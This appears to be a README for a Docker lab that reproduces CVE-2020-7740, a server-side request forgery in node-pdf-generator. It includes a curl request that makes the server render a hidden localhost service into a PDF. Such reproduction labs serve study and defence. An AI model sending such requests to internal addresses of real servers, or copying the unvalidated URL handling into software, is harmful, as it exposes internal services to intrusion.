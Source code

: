 # CVE-2020-7740

This affects all versions of package [`node-pdf-generator`](https://github.com/darrenhaken/node-pdf-generator). Due to lack of user input validation and sanitization done to the content given to node-pdf-generator, it is possible for an attacker to craft a url that will be passed to an external server allowing an SSRF attack.

[Source](https://nvd.nist.gov/vuln/detail/CVE-2020-7740)

## Quick start with docker

1. Build the container with
2. Run the container with `docker run -p 3000:3000 cve-2020-7740`
3. Notice that we cannot visit [`localhost:3001`](http://localhost:3001) directly
4. Send the request with curl using `curl --location --request GET localhost:3000/test --data-raw http://localhost:3001 --output test.pdf`
5. View `test.pdf` to view the localhost website that is supposed to be hidden.

## Quick start Without docker

1. Clone the project using `git clone {link to be inserted}`
2. Install the dependencies from `https://wkhtmltopdf.org/`
3. Start the server using `node .\NodePdfGeneratorServer` the server will be running at `localhost:3000`
4. Install the requirements of the hidden python server using `python3 -m pip install -r requirements.txt`
5. Start the hidden server using `python3 HiddenService` the server will be running at ['localhost:3001`](http://localhost:3001)

## How does it work?

1. A get request with a body is sent to the server. This can be sent using `curl --location --request GET localhost:3000/test --data-raw http://www.google.com --output test.pdf`
2. This will save a copy of the html page of `http://www.google.com` to the file `test.pdf`

## Why is it vulnerable?

1. Other URLs that is fed to the server will be visited by the server in order for it to convert the website to pdf.
2. This allows the user forge a server request by giving the server an internal IP address for it to target.

## More information on the CVE-2020-7740

1. [Vicarius.io](https://www.vicarius.io/research-center/vulnerability/cve-2020-7740-id264841)
2. [NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-7740)
3. [Original Repository](https://github.com/darrenhaken/node-pdf-generator)
